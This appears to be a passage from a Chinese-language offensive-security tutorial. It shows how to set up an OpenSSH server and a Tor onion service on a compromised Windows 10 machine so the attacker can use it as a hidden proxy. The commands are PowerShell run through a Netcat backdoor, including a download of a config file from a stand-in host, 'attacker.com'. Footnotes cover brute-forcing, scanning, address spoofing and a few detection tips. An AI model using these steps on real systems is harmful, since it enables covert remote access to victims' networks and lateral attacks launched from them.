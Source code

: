      `> net start sshd`

   - Verify the OpenSSH Server Is Running

     `> Get-NetTCPConnection -State Listen`

2. Set Up Tor on the Target Windows 10 Computer

   - Download the Tor ZIP

     `> iwr 'https://www.torproject.org/dist/torbrowser/8.0.9/tor-win32-0.3.5.8.zip' -o $env:temp\tor.zip`

   - Extract the Tor Archive

     ```powershell
     > Expand-Archive -Path $env:TEMP\tor.zip -DestinationPath $env:TEMP\tor\
     > cd $env:TEMP\tor\Tor\
     ls
     # 目录下没有配置文件 torrc
     ```

   - Create the Torrc Configuration File [^6]

     ```powershell
     # 使用PowerShell中的`$env`变量验证目标的用户名,torrc配置文件需要此用户名
     > echo $env:username
     # 在Kali或虚拟专用服务器中，创建一个名为“torrc”的文件，并将以下torrc配置保存到该文件中。或者将此文件托管在文件共享服务器或GitHub上
     HiddenServiceDir C:\Users\USERNMAE\AppData\Local\Temp\tor\Tor\HS\
     HiddenServicePort 22 127.0.0.1:22
     ```

     

   - Download the Torrc from Attacker's System

     ```bash
     ~$ python3 -m http.server 80
     > iwr attacker.com/torrc -o torrc
     # 使用ls来验证torrc文件是否已正确保存
     > ls
     > cat torrc
     ```

     

   - Start the Tor Process

     `> Start-Process -NoNewWindow -FilePath .\tor.exe -ArgumentList '-f','torrc'` [^7]

   - Find the Onion Address


[^1]: 拥有对Windows 10计算机的特权访问权限的入侵者可以将其配置为充当Web代理，从而允许攻击者通过受感染的计算机定位网络上的设备和服务。探测和攻击都来自Windows 10计算机，因此很难检测到攻击者的实际位置。本指南中使用Tor代理，但是像[ngrok](https://ngrok.com/)和[Serveo](https://serveo.net/)这样的其他工具可能会起到替代作用，但是这些服务尚未经过测试，主要是因为Tor连接是加密和私有的
[^2]: 在本指南中，以`>`开头的代码块表示该命令应该在Windows 10系统上使用PowerShell执行（即Netcat后门）。以`〜$`开头的代码块表示执行Kali Linux命令
[^3]: SSH 服务器与大多数Windows 10版本中的SSH 客户端不同。如果已经安装了OpenSSH，则可以在没有管理员（root）权限的情况下执行以下大多数攻击。但是如果未安装OpenSSH，则需要管理员权限才能安装它
[^4]: 因为可以将给定服务的默认端口号更改为任意值，所以输出不是100％正确
[^5]: 使用`netstat`，可以识别使用给定端口的服务
[^6]: 在`ls`输出中，注意到没有 [torrc](https://2019.www.torproject.org/docs/faq.html.en#torrc) 配置文件，它其中包含Tor应如何配置的说明。而此时我们希望Tor创建一个新的洋葱服务地址，当使用`echo`和其他PowerShell文件创建命令创建torrc文件时，会发生一些恼人的[换行错误](https://stackoverflow.com/questions/9280591/avoid-newline-in-echo)。最终选择在远程服务器上托管所需的torrc文件，只需使用PowerShell下载即可
[^7]: 执行命令后等待 Netcat 终端读取“Bootstrapped 100％：Done”，这表明它已经正常启动，按键盘上的*Enter* 键返回交互式 Netcat shell
[^8]: Tor启动后，将创建一个名为“HS”的新目录。在此目录中可以找到包含洋葱地址的主机名文件
[^9]: 一旦创建SOCKS5代理，许多人可能会尝试通过Windows 10计算机执行Nmap扫描。但Nmap 对内置的[代理功能支持有限](https://security.stackexchange.com/questions/120708/nmap-through-proxy/120723#120723)。即使与代理链配合使用，也不会支持所有Nmap的扫描类型
[^10]: [Curl](https://linux.die.net/man/1/curl) 是一个功能强大的命令行工具，用于创建不同类型的Web请求，支持许多不同的协议和功能。它可用于枚举网络上设备上找到的Web服务器类型。与其他许多工具不同，curl具有内置的SOCKS5支持，可以使用`--proxy`选项调用
[^11]: Patator 是一个命令行强制执行工具。使用代理链，Patator可用于通过Windows 10计算机强制执行服务。虽然未经测试，但同样的语法可以与其他强力工具如 Hydra 和 Medusa 一起使用
[^12]: TheHarvester 是一个信息收集工具。它具有执行虚拟主机验证，DNS枚举，反向域搜索和IP查找以及进行 Shodan 查询的功能
[^13]: Nikto 是一个简单的Web服务器扫描程序，它可以检查网站并报告发现的漏洞
[^14]: 某些情况下，可以通过MAC和IP地址定义黑名单和白名单规则方法来安全的访问Web服务。例如，特定路由器将仅允许某些Windows 10计算机访问路由器的网关.。但是可以伪造Kali的MAC和IP地址来诱骗路由器让我们查看网关。同时也可以使用SSH代理来实现相同的目标
[^15]: 需要注意的是，这只表明攻击者可以使用受感染的计算机作为代理的一种方式。在本文的早期概念中，目标的路由器和Windows 10防火墙被修改为允许端口转发和远程访问。这也将允许攻击者从世界上任何地方访问SSH服务器。此外，可能并不总是需要管理员权限。例如，Tor可以在没有特殊权限的情况下下载和使用，并且可以配置为将请求转发到网络上的任何服务或端口，而无需使用SSH服务器或SOCKS5代理
[^16]: 如果攻击者正在使用Tor，则可以在 [ExoneraTor](https://metrics.torproject.org/exonerator.html)上找到Tor服务器。同样，在Wireshark捕获中可以轻松检测到 Netcat 流量
[^17]: 这种解决方案并不总是完全有效，因为进程名称可以更改或欺骗，但是懒惰的入侵者可能会将这些文件名称保留为默认名称（即 “tor.exe”）